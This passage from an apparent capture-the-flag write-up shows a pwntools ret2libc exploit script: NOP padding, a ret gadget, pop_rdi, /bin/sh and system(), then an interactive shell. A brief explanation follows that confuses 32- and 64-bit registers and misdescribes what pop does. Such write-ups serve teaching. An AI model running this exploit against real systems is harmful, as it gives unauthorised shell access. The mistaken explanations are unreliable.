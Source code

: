 ```python
    asm('nop') * padding,  # Padding up to RIP
    ret,
    pop_rdi,  # Pop the following address into the RDI register
    binsh,  # Address of /bin/sh in libc
    system,  # Address of system function in libc
)

# Write payload to file
write('payload', payload)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```
{% endcode %}

### Exploit Code Analysis

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Breaking down our payload**:

Our <mark style="color:yellow;">padding</mark> of **72-bytes**, this was obtained from finding the offset of our vulnerable function's `EBP` to our `EIP`.

<mark style="color:yellow;">Write the padding</mark> with `asm('nop') * padding,`.

We will then use our `ret` ROP gadget to return to aid in stack alignment.

We then utilize `pop_rd`i to <mark style="color:yellow;">`POP`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">the next value ONTO the stack into the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`RDI`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">register</mark>.
